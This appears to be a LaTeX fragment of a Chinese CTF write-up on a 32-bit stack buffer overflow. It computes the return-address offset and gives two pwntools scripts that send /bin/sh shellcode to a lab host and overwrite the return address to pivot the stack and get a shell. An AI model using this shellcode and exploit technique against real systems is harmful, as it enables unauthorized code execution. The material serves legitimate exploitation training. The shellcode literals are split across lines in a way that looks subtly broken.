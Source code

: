 \documentclass{article}
\begin{document}
    则local\_3c起始地址为0xffffdc04，ret后eip存放地址为0xffffdc4c，距离为0x48。首先尝试使用如下脚本：
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40000)

io.recvuntil("secret:")

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(shellcode)

io.recvuntil("name:")

io.send(b'a'*0x44 + p32(0x07000000))

io.interactive()

        \end{lstlisting}
    \end{itemize}
    运行脚本1，程序异常退出，查看汇编代码得知ebp存放地址为0xffffd38，在填充空间内，并且ebp地址的上一四字节存放值将赋值给ecx，最后将[ecx-0x4]处存放的值赋值给esp，esp的后4字节赋值给eip并运行。于是，将脚本修改为如下：
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40000)
io.recvuntil("secret:")

shellcode=b"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf
\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

io.send(b'a'*0x10 + p32(0x07000014) + shellcode)

io.recvuntil("name:")

io.send(b'a'*0x30 + p32(0x07000014))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    即把ecx值更改为0x07000014，这样esp值也便于修改，指向shellcode起始地址0x07000014，不会引发程序异常退出。\par
    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.8\textwidth]{2.png}
    	\end{center}
    \end{figure}
\end{document}
